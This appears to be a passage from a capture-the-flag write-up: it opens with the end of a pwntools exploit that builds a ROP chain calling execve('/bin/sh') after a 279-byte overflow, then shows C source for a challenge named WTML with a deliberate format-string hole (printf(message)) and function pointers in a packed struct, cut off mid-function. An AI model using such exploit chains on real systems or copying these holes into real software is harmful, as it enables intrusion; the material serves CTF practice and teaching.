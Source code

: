```python
    payload = b'a'*279
    payload += flat(
        rsi, 0,
        rdi, next(libc.search(b"/bin/sh")),
        rax_rdx_rbx, 0x3b, 0x0, 0x0,
        syscall
    )
    r.sendlineafter(b'Echo2\n', str((len(payload) + 1)))
    r.send(payload)
```

# WTML

## Source

```c
#include <errno.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

#define MESSAGE_LEN 0x20

typedef void (*tag_replacer_func)(char *message, char from, char to);

typedef struct tag_replacer {
    uint8_t id;
    tag_replacer_func funcs[2];
} __attribute__((packed)) tag_replacer;

void replace_tag_v1(char *message, char from, char to) {
    size_t start_tag_index = -1;
    for (size_t i = 0; i < MESSAGE_LEN - 2; i++) {
        if (message[i] == '<' && message[i + 1] == from && message[i + 2] == '>') {
            start_tag_index = i;
            break;
        }
    }
    if (start_tag_index == -1) return;

    for (size_t i = start_tag_index + 3; i < MESSAGE_LEN; i++) {
        if (message[i] == '<' && message[i + 1] == '/' && message[i + 2] == from) {
            size_t end_tag_index = i;
            message[start_tag_index + 1] = to;
            message[end_tag_index + 2] = to;
            return;
        }
    }
}

void replace_tag_v2(char *message, char from, char to) {
    printf("[DEBUG] ");
    printf(message);

    // TODO implement

    printf("Please provide feedback about v2: ");
    char response[0x100];
    fgets(response, sizeof(response), stdin);

```